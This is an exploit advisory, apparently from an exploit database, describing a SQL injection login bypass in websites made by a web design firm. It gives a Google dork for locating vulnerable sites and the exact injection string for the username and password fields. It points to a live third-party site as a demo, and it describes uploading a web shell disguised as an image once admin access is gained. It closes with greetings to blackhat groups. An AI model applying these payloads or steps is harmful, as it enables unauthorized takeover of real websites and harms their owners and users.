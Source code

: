 Web Design by ChromeMedia Inc SQL Injection Vulnerability

* Exploit Title        : Web Design by ChromeMedia Inc SQL Injection Vulnerability
* Google Dork          : - intext:Web Design by ChromeMedia Inc | "Explore Your Brain !!"
* Date                 : 16/06/2014
* Exploit Author       : Fathur Freakz ft Barrabravaz
* Vendor Homepage      : http://www.chromemedia.com
* Version              : -
* Tested on            : Windows, Linux, Mac

Author will be not responsible for any damage
* Issue: SQL Injection Bypass Login
* Risk level: High

> The remote attacker has the possibility to manage the website.
> The remote attacker is able to login into website with access level as admin.

## Proof Of Concept:
> http://127.0.0.1/manage/login.php

##### Username :  ' or 1=1 limit 1 -- -+
##### Password :  ' or 1=1 limit 1 -- -+

## LIVE DEMO
> http://www.kwdoor.com/manage/login.php

## How
* Login > Site Pages > [ Company Profile ] > Upload Photo
* Upload shell with  shell.php.jpg

## Thanks To
* Bang Galih
* Beb Hafid
* Yoga Harvananda
* Mas Nico
* Nindya
* Yogyakarta still BlackHat
* And You
* SurabayaBlackHat
* YogyakartaBlackHat